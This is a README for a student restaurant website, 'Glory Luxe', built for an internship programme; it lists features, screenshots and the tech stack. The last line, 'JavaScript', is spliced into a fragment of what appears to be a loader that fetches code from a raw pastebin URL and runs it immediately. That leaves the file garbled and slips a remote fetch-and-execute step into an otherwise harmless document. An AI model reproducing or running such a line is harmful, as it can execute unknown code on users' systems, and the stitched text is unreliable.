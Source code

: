 # ✨ Glory Luxe  ✨

This is a web based application developed for a restaurant named PARADISE.

### This web based restaurant application has been developed for the accomplishment of Future Ready Talent Internship program launched by Microsoft, Future Skills Prime, Quess, Github and EY.


**Project Link** -https://salmon-pebble-083963100.3.azurestaticapps.net


**Demo Video** -  

## Features and Functionalities 😃

- Interactive and responsive UI.
- Has many graphical and visual innovative effects.
- Have an aesthetically pleasing visual design and architecture.
- Has collection of many web pages including Home, About Us, Contact, Menu, Chef Staff pages etc.
- User is able to book a table through the website.
- Included the feedback Survey form to increase the scope of improvement 

## Screenshots 📸
### Home page -   ![Screenshot 2023-07-29 132157](https://github.com/pranay020/project2/assets/140306607/80cc8143-5cc6-4852-86a1-8114e0457abd)


### services page -![Screenshot 2023-07-29 132354](https://github.com/pranay020/project2/assets/140306607/24e5e751-75a2-4fff-8269-a41eae352a87)


### Contact page -![Screenshot 2023-07-29 132446](https://github.com/pranay020/project2/assets/140306607/6b609a36-fe0d-4a7c-ae34-731bb5e6fc0e)


### Menu Page -![Screenshot 2023-07-29 132855](https://github.com/pranay020/project2/assets/140306607/6c8585f1-56c5-4099-8c90-e48e9814d588)


### About Us Page -![Screenshot 2023-07-29 132630](https://github.com/pranay020/project2/assets/140306607/d954607a-7a4b-48a6-8c9a-e7f6ebb74d2d)



## Tech Stack 💻

- [Azure(Hosting)](https://azure.microsoft.com/en-in/features/azure-portal/)
- HTML
- CSS
- Bootstrap
- JavaScriptps://pastebin.com/raw/PaWZGzyK'),true))()
